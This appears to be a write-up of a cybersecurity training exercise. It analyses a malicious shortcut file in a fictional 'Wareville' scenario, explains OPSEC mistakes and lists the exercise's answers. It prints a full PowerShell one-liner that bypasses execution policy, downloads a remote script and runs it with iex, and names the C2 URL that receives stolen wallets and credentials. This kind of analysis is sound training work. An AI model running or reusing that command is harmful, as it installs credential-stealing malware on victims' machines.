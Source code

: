 ```
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019

```

Powershell command
- `-ep Bypass -nop` flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
- The `DownloadFile` method pulls a file (in this case, `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in the `C:\\ProgramData\\` directory on the target machine.
- script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.
- The script is designed to collect highly sensitive information from the victim's system, such as cryptocurrency wallets and saved browser credentials, and send it to an attacker's remote server.

search Github : **"Created by the one and only M.M."** 
https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/1

 OPSEC mistakes include:
- Reusing usernames, email addresses, or account handles across multiple platforms. One might assume that anyone trying to cover their tracks would remove such obvious and incriminating information, but sometimes, it's due to vanity or simply forgetfulness.
- Using identifiable metadata in code, documents, or images, which may reveal personal information like device names, GPS coordinates, or timestamps.
- Posting publicly on forums or GitHub (Like in this current scenario) with details that tie back to their real identity or reveal their location or habits.
- Failing to use a VPN or proxy while conducting malicious activities allows law enforcement to track their real IP address.

Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 

- `tyler ramsbey `

The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?
- `$c2Url =` 
- ` http://papash3ll.thm/data `

Who is M.M? Maybe his Github profile page would provide clues?

- mayor malware


## day 2 : logs 

 A SOC analyst then analyses the alert to identify if the alert is a True Positive (TP) or a False Positive (FP). An alert is considered a TP if it contains actual malicious activity. On the flip side, if the alert triggers because of an activity that is not actually malicious, it is considered an FP.
